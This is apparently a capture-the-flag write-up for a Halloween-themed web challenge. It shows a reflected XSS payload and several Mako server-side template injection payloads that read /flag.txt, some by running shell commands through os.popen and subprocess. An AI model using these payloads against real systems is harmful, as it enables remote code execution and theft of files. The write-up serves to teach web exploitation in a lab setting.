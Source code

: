 This challenge provides source code, but since it's categorized as "Very Easy," the initial approach was to explore the application dynamically before examining the code.

Upon accessing the challenge, we are presented with a Halloween-themed interface where users can input their "Halloween name":

![image.png](./images/image.png)

The application takes user input and renders it using different spooky fonts. For example, inputting "test" produces the following output:

![image.png](./images/image(1).png)

Initial testing with an XSS payload `<img src=x onerror=alert(1)>` reveals that the application is vulnerable to reflected XSS:

![image.png](./images/image(2).png)

The lack of input sanitization that allowed XSS suggests the application might also be vulnerable to Server-Side Template Injection. Testing with the payload `${7*7}` confirms SSTI vulnerability:

![image.png](./images/image(3).png)

Notice that in the image above, marker 1 shows our input payload `${7*7}`, while marker 2 shows the evaluated result `49`, confirming that the server is executing the mathematical expression rather than displaying it as literal text.

Examining the source code reveals why only certain expressions are visible. The application maps characters individually, and only the last font includes mappings for numeric characters:

![image.png](./images/image(4).png)

Further analysis of the source code confirms that the application uses **Mako** as its templating engine:

![image.png](./images/image(5).png)

With knowledge of the Mako templating engine, we can craft payloads to read sensitive files. Several effective payloads for reading the flag include:

**Simple file read:**
```python
${open('/flag.txt').read()}
```

**Command execution approaches:**
```python
${__import__('os').popen('cat /flag.txt').read()}
```
```python
${__import__('subprocess').check_output(['cat', '/flag.txt']).decode()}
```
```python
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

Executing any of these payloads successfully retrieves the flag:

![image.png](./images/image(6).png)

## References

- [Server-Side Template Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)